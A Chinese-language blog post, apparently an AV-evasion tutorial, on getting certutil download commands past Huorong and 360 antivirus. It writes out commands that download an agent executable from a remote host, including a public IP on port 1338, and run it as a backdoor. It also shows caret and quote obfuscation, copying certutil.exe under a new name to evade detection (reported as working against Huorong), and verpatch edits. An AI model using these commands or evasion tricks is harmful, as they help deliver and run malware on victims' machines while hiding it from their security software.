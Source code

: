 
免杀学习 - 从指令绕过开始 (2)



# 免杀学习 - 从指令绕过开始 (2)

# certutil 指令绕过

上次我们的免杀成功的绕过了联网 360，但在半个月后就被无情的杀掉了，原因和火绒的报错一致是因为敏感指令 certutil 导致了报警，那么我们本次学习的主题就是如何绕过 certutil 的报警

那我们先看看通过 cetutil 指令进行下载的时候，他们的参数都有着什么作用

```bash
-f
覆盖现有文件。
有值的命令行选项。后面跟要下载的文件 url。
-split
保存到文件。
无值的命令行选项。加了的话就可以下载到当前路径，不加就下载到了默认路径。
-URLCache
显示或删除 URL 缓存条目。
无值的命令行选项。
（certutil.exe 下载有个弊端，它的每一次下载都有留有缓存。）
```

可以在命令后面加上 delete 指令删除缓存

查看缓存

```bash
certutil -urlcache *
```

[![](assets/1701612194-a62fa93383f88b22a4876c3fe2a84f7c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804164455-2fabbbda-32a3-1.png)

看个缓存 360 直接报错了，因此可以判断是否目前 360 对于 certutil 的防御策略中有一项是针对我们的 certutil 的字符进行限制

执行删除缓存

```bash
certutil -urlcache * delete
```

## 绕过火绒

我们首先看看破晓中给我们的 certutil 的下载语句

```bash
certutil -urlcache -gmt -split -f http://127.0.0.1:1338/d/pzxsnoqd pzxsnoqd.exe && pzxsnoqd.exe agent -u http://127.0.0.1:1338 -s e75tdmwe
```

我们首先看看下载语句

```bash
certutil -urlcache -gmt -split -f http://127.0.0.1:1338/d/pzxsnoqd pzxsnoqd.exe
```

[![](assets/1701612194-c25cf19662c6cd2b2ec4116fbafbcc15.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804164825-acc0e10e-32a3-1.png)

会直接报警，防护提示显示是利用 certutil 下载可执行文件

### 语句上混淆（×）

我们调换四个带横线句子的顺序看看能否完成绕过

```bash
certutil -urlcache -gmt -split -f http://127.0.0.1:1338/d/pzxsnoqd pzxsnoqd.exe
```

无论怎么换，依旧报警即无法实现原有的字符混淆

### 尝试添加干扰参数（×）

添加一些无关参数

```bash
certutil -a -urlcache -gmt -split -f http://127.0.0.1:1338/d/pzxsnoqd pzxsnoqd.exe
```

添加了一些无关字段还是会报警

### 尝试从命令执行语句的构造上绕过（×）

除了常见的&和 | 命令外通过资料查找发现 windows 存在一些字符在命令执行的时候不会影响原语句的执行如：

```bash
p^i^n^g www.baidu.com
```

[![](assets/1701612194-2d2aba80a588781175c073bc1fa1918e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804165330-629dee40-32a4-1.png)

还有一个是利用双引号绕过

[![](assets/1701612194-ca8785244b755a98816c7472c71319ac.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804165358-732a3ac0-32a4-1.png)

那么我们根据其特性进行类似构造

```bash
^c""^e^r^t""u^ti^l -u^r"l""""cache -gmt -split -f ht""tp://1"2"7.0.0.1:13""38/d/pzxsnoqd pzxsn""oqd.^e^""x""^e
```

炸裂还是不行

### 给 certutil 换个路径和文件名（√）

```bash
更换
copy c:\windows\system32\certutil.exe c.exe
下载
a -urlcache -split -f http://43.143.224.232:1338/d/pzxsnoqd pzxsnoqd.exe
```

[![](assets/1701612194-715c7b9d2a1ba189011bc1efb7f861bf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804165429-85dd4220-32a4-1.png)

终于成功了，nice

[![](assets/1701612194-88cc8c68bcb879b84606219d1d3e05ef.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804165456-95e09442-32a4-1.png)

远程连接也是成功的，实现了火绒的绕过

## 360 绕过

那三板斧直接先给他来一下，既然火绒能绕过，360 不得试试同样的方法行不行

[![](assets/1701612194-303373daa6eeee6ab6c5870938e36274.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804165520-a3fe58b6-32a4-1.png)

及时将前面绕过火绒的四个方法排列组合也不太行，寻找别的方法

### 多次命令路径的切换（×）

将我们复制的 a，再次复制命名为 b 再次执行还是报警

推测可能是分析了命令执行的行为

### 尝试动态绕过（⚪）

这里可能不算真正意义上的手动绕过我们利用工具一个三方的小巧好用的修改工具 verpatch，经过测试只需要修改程序版本信息中 InternalName 字段的值，这里我们 InternalName 修改为空看看情况。

```bash
verpatch.exe zzz.exe /s InternalName ""
```

[![](assets/1701612194-cd061ffefa5afa8af4cb7e84155c39d0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804165535-ad0c7c80-32a4-1.png)

但最离谱的是我们在执行木马的时候居然报警了

[![](assets/1701612194-a22fd245e01d6b3304a8b9263bbbfe78.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804165551-b6d266d0-32a4-1.png)

这是非常炸裂的

以 jpg 文件下载下来，执行依旧不行

[![](assets/1701612194-ab4e321005f00bc6db0904ec543deb99.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804165609-c131d214-32a4-1.png)

# 参考文献

```bash
https://www.freebuf.com/articles/endpoint/334548.html

https://xz.aliyun.com/t/9737#toc-1
```
